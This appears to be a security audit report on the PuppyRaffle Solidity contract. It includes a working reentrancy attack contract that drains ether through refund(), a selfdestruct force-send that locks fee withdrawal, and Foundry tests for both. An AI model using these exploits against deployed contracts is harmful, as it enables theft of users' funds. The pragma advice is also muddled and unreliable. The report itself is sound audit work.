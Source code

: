 ## Summary

The PuppyRaffle.sol contract has undergone a comprehensive security audit, revealing a total of 10 vulnerabilities. These vulnerabilities have been classified into different severity levels to provide a more detailed understanding of their impact.

High Severity Issues (2): These are critical vulnerabilities that demand immediate attention. Addressing these problems is vital to ensuring the contract's security and integrity.

Medium Severity Findings (2): While not as severe as the high-risk issues, these findings still pose a substantial level of risk and should be prioritized for resolution.

Low Risk and Non-Critical Findings (6): These issues are relatively less critical but are worth addressing to maintain robust security practices and prevent potential future vulnerabilities.

This detailed breakdown of vulnerabilities allows a better assessment of the contract's overall security posture. It emphasizes the importance of addressing high and medium-risk issues promptly while also considering the low-risk findings to enhance the contract's long-term security and stability.

## Vulnerability Details

### High-Risk Issues

1. Reentrancy: The function refund() is prone to reentrancy attack. The Function didn't conform to the Check->Effect->Interaction rule, this action can lead to a reentracy attack. The state variable of players[playerIndex] = address(0), will be updated after the ether has been refunded. An attacker can reenter this function.
   The Proof of concept is below.

### POC

**Contract**
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.7.6;
import "../src/PuppyRaffle.sol";

contract AttackRaffle {
PuppyRaffle immutable puppyraffle;

    address public immutable owner;
    uint256 myIndex;

    constructor(address _contractAddress) {
        owner = payable(msg.sender);
        puppyraffle = PuppyRaffle(_contractAddress);
    }

    function destroy(address _puppyContract) external {
        selfdestruct(payable(_puppyContract));
    }

    function playGame(uint256 entranceFee) external payable {
        // start by playing the game.
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyraffle.enterRaffle{value: entranceFee}(players);

        // then the main attack which is the refund function.
        myIndex = puppyraffle.getActivePlayerIndex(address(this));
        puppyraffle.refund(myIndex);
    }

    receive() external payable {
        if (address(puppyraffle).balance > 0) {
            myIndex = puppyraffle.getActivePlayerIndex(address(this));
            puppyraffle.refund(myIndex);
        } else {
            (bool success, ) = (owner).call{value: address(this).balance}("");
            if (!success) revert("Failed Transaction");
        }
    }

}
**Test**

    function test_reenterancy_attack() external {
        // function that allow players enter the game
        testCanEnterRaffleMany();

        // The attack
        address owner = address(23);
        vm.prank(owner);
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 ether);
        console.log(
            "Owner of the Attack Contract balance before the game",
            owner.balance
        );
        console.log(
            "puppyRaffle Contract's balance before contract entered the game",
            address(puppyRaffle).balance
        );
        vm.startPrank(address(attackRaffle));
        attackRaffle.playGame(entranceFee);
        console.log(
            "Owner of the Attack Contract balance after the game",
            attackRaffle.owner().balance
        );

        console.log(
            "puppyRaffle Contract's balance after the game",
            address(puppyRaffle).balance
        );
        vm.stopPrank();
    }

2. The use of strict operator: The function withdrawFees has a strict operation of ==, which can lead to a high vulnerability, when an addition wei or ether is sent to this contract, address(this).balance can never be equal to totalFees. Ether can not be withdrew to the feeAddress.

### POC

**Contract**
function destroy(address \_puppyContract) external {
selfdestruct(payable(\_puppyContract));
}
This is a snippet from the above contract AttactPuppyRaffle.
**Test**
function test_withdraw_attack() external {
// function that select winner
testSelectWinner();

        // The attack
        attackRaffle = new AttackRaffle(address(puppyRaffle));
        vm.deal(address(attackRaffle), 1 wei);
        vm.startPrank(address(attackRaffle));
        attackRaffle.destroy(address(puppyRaffle));

        puppyRaffle.withdrawFees();
        vm.stopPrank();
    }

**NOTE** All the test functions can be added to the PuppyRaffleTest file because testSelectWinner() and testCanEnterRaffleMany() are functions from the file.

### Medium Issue

1. In the function selectWinner(), If at any point in the raffle, the total fee exceeds 18.45 ether there will be an overflow and the totalfee will not be represented well. Why? Because the totalFee was stored with uint64 and the max for uint64 is 18,446,744,073,709,551,615.
2. The winner is deterministic. The use of msg.sender, block.timestamp, block.difficulty and player. length is very predictable especially to the miner.

### Low Issue

1. The was no check for zero address in the contructor, the feeAddress can be deployed with address(0), though it can be changed but it is not best practise.
2. The use of custom errors is the most optimal way for calling error.
3. The was no proper check on the array length on enterRaffle(), this could lead to a DOS attack on the system. The address were not also check if address(0) will be mistakenly included.
4. Unlocked pragma (for e.g. by not using ^ in pragma solidity 0.7.6) can lead the contract to accidentally get deployed using an older compiler version with unfixed bugs
5. Lastly, in gas optimization, it is better to save the length of the array before looping, this helps save gas.

## Impact

1. Reenterancy can lead to loss of the ether in the contract.
2. Strict operators can also lead to loss of ether from the contract.
3. In the function selectWinner() if at any point in the raffle the totalfee exeeds 18.45 ether there will be overflow, loss of funds.
4. The winner to the easy predictable or deterministic undermines the transparency and accountability of the contract
5. Zero checks on address can lead to loss of funds
6. The no proper check on the array length on enterRaffle() can lead to a DOS attack

## Tools Used

Manual Audit

## Recommendations

1. For the reenterancy, it is best practice to always apply the check->effect->interaction.
2. Also make use of a reenterancy lock or modifier to help secure the contract, Openzeppline offers good reenterncy guide.
3. Avoid the use of strict operators
4. Proper address Check
5. Instead of uint64 for the totalFee it is best you use uint256
6. It best to use a more secure and reliably random selection, Chainlink offers a good service on that.
7. The Contract should be deployed using the same compiler version/flags with which they have been tested. Locking the pragma (for e.g. by not using ^ in pragma solidity 0.7.6) ensures that contract do not accidentally get deployed using an older compiler version with unfixed bugs.
